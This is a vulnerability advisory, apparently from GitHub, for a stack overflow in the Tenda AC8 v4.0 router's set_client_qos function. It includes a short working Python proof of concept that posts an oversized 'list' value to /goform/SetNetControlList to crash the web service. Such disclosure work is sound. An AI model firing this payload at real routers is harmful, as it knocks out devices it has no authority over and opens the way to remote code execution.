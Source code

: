 # Tenda Router Vulnerability on set_client_qos function
> vendor:Tenda
>
> product:AC8
>
> version:v4.0 V16.03.34.06
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html

## Vulnerability Details

The Tenda AC8V4.0 V16.03.34.06 has a buffer overflow vulnerability. The vulnerability is triggered in the `formSetQosBand` function when it retrieves the value of the list parameter at line 30, and ultimately causes an overflow at line 50 in the `set_client_qos` function during the sscanf call. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.
![scqv_websgetvar](images/scqv_websgetvar.png)
![scqv_set_clinet_qos](images/scqv_set_clinet_qos.png)
![scqv_sscanf.png](images/scqv_sscanf.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
url = "http://192.168.1.100:80/goform/SetNetControlList"
bindnum_value = "aaaaa"
list_value = "a" + "\x12" * 500 + "z" * 500  

data = {
    "bindnum": bindnum_value,
    "list": list_value
}

response = requests.post(url, data=data)
```

![python-poc-crash](images/python_crash_scqv.png)

![httpd-segmentfault](images/httpd_crash_scqv.png)
